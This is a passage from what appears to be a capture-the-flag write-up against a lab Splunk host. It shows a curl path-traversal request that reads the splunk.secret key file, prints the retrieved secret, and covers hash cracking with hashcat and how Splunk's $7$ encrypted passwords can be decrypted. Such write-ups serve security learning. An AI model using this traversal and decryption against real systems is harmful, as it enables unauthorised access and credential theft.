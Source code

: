 ```
peers = *
quota = MAX
stack_id = forwarder

[lmpool:auto_generated_pool_free]
description = auto_generated_pool_free
peers = *
quota = MAX
stack_id = free

[license]
active_group = Forwarder

```

I’ll also want to grab `etc/auth/splunk.secret`, which will be necessary to decrypt these hashes later:

```

oxdf@hacky$ curl --path-as-is 'http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret' -s | tee splunk.secret
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD

```

### Recover Passwords

#### passwd

There are several hashes in from the `passwd` file that are standard sha512crypt hashes like in a Linux `passwd` file. I’ll run them against `hashcat` and `rockyou.txt` in [mode 1800](https://hashcat.net/wiki/doku.php?id=example_hashes), but none of them crack.

#### Format

`$7$` doesn’t show up in the `hashcat` [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes). Searching for it, the top result is a Python package named `splunksecrets`:

![image-20250624103607374](/img/image-20250624103607374.png)

The [GitHub README](https://github.com/HurricaneLabs/splunksecrets) says:

> Starting in Splunk 7.2, AES256-GCM is used for encryption of secrets, indicated in configuration files by `$7$` in the encrypted password. The `PBKDF2` algorithm is used to derive an encryption key from all 254 bytes of `splunk.secret` (the newline character is stripped from the end of the file), using a static salt of `disk-encryption` and a single iteration. This 256-bit key is then used as the encryption key for AES256-GCM, with a 16-byte randomly generated initialization vector. The encryption produces both the ciphertext as well as a “tag” that is used as part of integrity verification. The iv, ciphertext, and tag (in that order) are concatenated, base64-encoded, and prepended with `$7$` to produce the encrypted password seen in the configuration files. If the key is less than 254-bytes it is padded with null bytes.
